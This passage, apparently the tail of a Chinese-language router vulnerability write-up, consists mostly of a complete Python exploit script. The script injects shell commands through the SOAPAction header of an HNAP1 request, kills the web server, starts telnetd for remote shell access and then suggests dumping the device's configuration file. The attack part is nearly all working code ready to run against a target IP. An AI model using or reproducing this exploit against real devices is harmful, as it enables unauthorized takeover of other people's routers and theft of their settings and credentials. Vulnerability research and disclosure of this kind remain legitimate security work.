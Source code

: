 wget请求将会被挂起，因为cgibin会等待telnetd返回。下面是用Python写的一个利用程序：

```
#!/usr/bin/env python

import sys
import urllib2
import httplib

try:
    ip_port = sys.argv[1].split(':')
    ip = ip_port[0]

    if len(ip_port) == 2:
        port = ip_port[1]
    elif len(ip_port) == 1:
        port = "80"
    else:
        raise IndexError
except IndexError:
    print "Usage: %s <target ip:port>" % sys.argv[0]
    sys.exit(1)

url = "http://%s:%s/HNAP1" % (ip, port)
# NOTE: If exploiting from the LAN, telnetd can be started on
#       any port; killing the http server and re-using its port
#       is not necessary.
#
#       Killing off all hung hnap processes ensures that we can
#       re-start httpd later.
command = "killall httpd; killall hnap; telnetd -p %s" % port
headers = {
            "SOAPAction"    : '"http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"' % command,
          }

req = urllib2.Request(url, None, headers)
try:
    urllib2.urlopen(req)
    raise Exception("Unexpected response")
except httplib.BadStatusLine:
    print "Exploit sent, try telnetting to %s:%s!" % (ip, port)
    print "To dump all system settings, run (no quotes): 'xmldbc -d /var/config.xml; cat /var/config.xml'"
    sys.exit(0)
except Exception:
    print "Received an unexpected response from the server; exploit probably failed. :("

```

0x02 结语
=======

* * *
